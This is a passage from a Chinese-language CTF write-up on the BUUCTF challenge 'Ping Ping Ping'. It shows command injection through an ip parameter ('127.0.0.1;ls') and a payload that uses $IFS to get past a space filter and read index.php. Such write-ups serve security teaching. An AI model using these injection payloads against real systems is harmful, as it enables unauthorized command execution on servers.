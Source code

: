 # BUUCTF-内联执行-变量拼接-base绕过-sql改||类型-*.1

第五周 3.30

**目录**

[TOC]





## web

### [GXYCTF2019]Ping Ping Ping



<img src="https://i-blog.csdnimg.cn/blog_migrate/0252b548faf3b408a0274758c97e057a.png" alt="" style="max-height:209px; box-sizing:content-box;" />


ip 想到ping 在url上ping



<img src="https://i-blog.csdnimg.cn/blog_migrate/09f1fe3c84fa86792dbc84c781752aca.png" alt="" style="max-height:257px; box-sizing:content-box;" />


成功

```cobol
?ip=127.0.0.1;ls
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/3077f89ad3407e70e1c41d72e64be245.png" alt="" style="max-height:320px; box-sizing:content-box;" />


发现flag文件 尝试访问



<img src="https://i-blog.csdnimg.cn/blog_migrate/e71c1ad17c71a8419bb8270f647f1cad.png" alt="" style="max-height:152px; box-sizing:content-box;" />


骂我们说明过滤了

我们先看看能不能访问index.php

发现也不行

开始尝试过滤

```swift
过滤空格
$IFS$9
${IFS}
$IFS$1
 
payload
127.0.0.1;cat$IFS$9index.php
```
